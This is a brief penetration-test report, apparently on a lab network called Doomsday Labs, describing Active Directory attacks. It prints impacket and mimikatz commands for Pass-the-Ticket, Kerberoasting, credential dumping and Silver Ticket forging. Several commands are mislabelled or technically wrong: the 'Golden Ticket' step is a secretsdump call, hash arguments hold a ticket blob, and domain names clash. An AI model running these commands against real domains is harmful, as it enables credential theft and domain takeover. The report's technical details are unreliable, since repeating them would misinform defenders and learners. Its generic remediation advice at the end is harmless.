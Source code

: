 # Active Directory Exploitation Findings

## Overview

This document details the vulnerabilities that were exploited in Active Directory (AD) during the penetration testing of Doomsday Labs' network.

## Technical Details

### Exploitation Techniques
- **Pass the Ticket Attack**:
  - We utilized fabricated Kerberos Ticket Granting Tickets (TGTs) obtained via memory dumps. These tickets were crafted to mimic legitimate user credentials to gain unauthorized access:
    ```
    impacket-ticketer -nthash doIF0jCCBc6g...NXU/rX [shortened for space] -domain-sid S-1-5-21-2774200336-3400690103-1452933870-1111 -domain doomsdaylabs.net da.admin
    ```

- **Kerberoasting**:
  - This method involved targeting service accounts with weak passwords to request their service tickets, which we then attempted to crack offline:
    ```
    impacket-GetUserSPNs doomsdaylabs.net/filemaker -dc-ip 10.100.1.2 -request
    ```

- **Golden Ticket Creation**:
  - After securing domain admin rights, we generated Golden Tickets for persistent, undetected access across the network using:
    ```
    KRB5CCNAME=./Administrator.ccache impacket-secretsdump -k -no-pass -dc-ip 10.100.1.2 -target-ip 10.100.1.2 dc.doomsdaylabs.net
    ```

- **Silver Ticket Attack**:
  - We exploited service account misconfigurations to create Silver Tickets, granting specific service access without full domain compromise:
    ```
    mimikatz # kerberos::golden /user:Administrator /domain:doomsdaylabs.local /sid:S-1-5-21-2774200336-3400690103-1452933870-1111 /krbtgt:doIF0jCCBc6g...NXU/rX [shortened] /service:HTTP /target:webserver.doomsdaylabs.net
    ```

## Impact Assessment

- **Potential Risks**:
  - **Unauthorized Access**: The exploited vulnerabilities could allow unauthorized access to various network resources, potentially leading to data breaches.
  - **Privilege Escalation**: Attackers might escalate their privileges to administrative levels, thereby gaining control over the network.
  - **Persistence**: The creation of Golden and Silver Tickets could allow attackers to maintain persistent access to the network, making detection and remediation difficult.

## Recommendations

- **Strengthen Security Practices**:
  - Regularly update and patch Active Directory to mitigate known vulnerabilities.
  - Conduct comprehensive security audits of Active Directory configurations to ensure they meet security standards.
  - Implement strict access controls and use network segmentation to minimize the risk of exploits.
  - Train IT staff on the latest security threats and defensive tactics to better prepare them for potential attacks.

## Conclusion

Our penetration testing uncovered several critical security issues within Doomsday Labs' Active Directory setup. Promptly addressing these issues and adopting the recommended security measures will significantly enhance the organization's overall security posture.
